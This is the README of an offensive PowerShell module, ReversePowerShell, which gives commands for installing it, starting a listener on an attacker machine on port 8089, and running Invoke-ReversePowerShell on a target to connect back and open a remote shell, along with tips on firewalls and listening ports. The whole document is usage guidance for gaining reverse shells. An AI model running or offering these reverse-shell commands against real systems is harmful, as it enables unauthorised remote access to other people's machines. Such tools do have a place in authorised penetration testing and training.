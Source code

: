 # ReversePowerShell
Functions that can be used to gain Reverse Shells with PowerShell

#### INSTALL THE MODULE
Install this module by placing the cloned folder "ReversePowerShell" inside the following directory location.
 'C:\Users\<username>\Documents\WindowsPowerShell\Modules\ReversePowerShell'

Once there it can be imported into a PowerShell session using the following command.
```powershell
Import-Module ReversePowerShell
```

You can also copy and paste the functions into your PowerShell session so the cmdlets become available to run.

#### START LISTENER
The below command can be executed to start a listener on the Attack machine on port 8089
```powershell
Start-Listener -Port 8089
```

#### ISSUE REVERSE SHELL CONNECTION
The below command is to be issued on the Target Machine to connect to the listener on the target over port 8089
```powershell
Invoke-ReversePowerShell -IpAddress <TargetIPv4Address> -Port 8089
```
---
#### FIREWALL
If you are not able to gain a connection it is most likely due to the Windows Firewall. 

#### VERIFY LISTENING PORTS
You can verify/view actively listening ports on the target computer by issuing the following command.
```powershell
Get-NetTcpConnection -State Listen
```
or if you are a command prompt kind of person;
```powershell
netstat -q
```
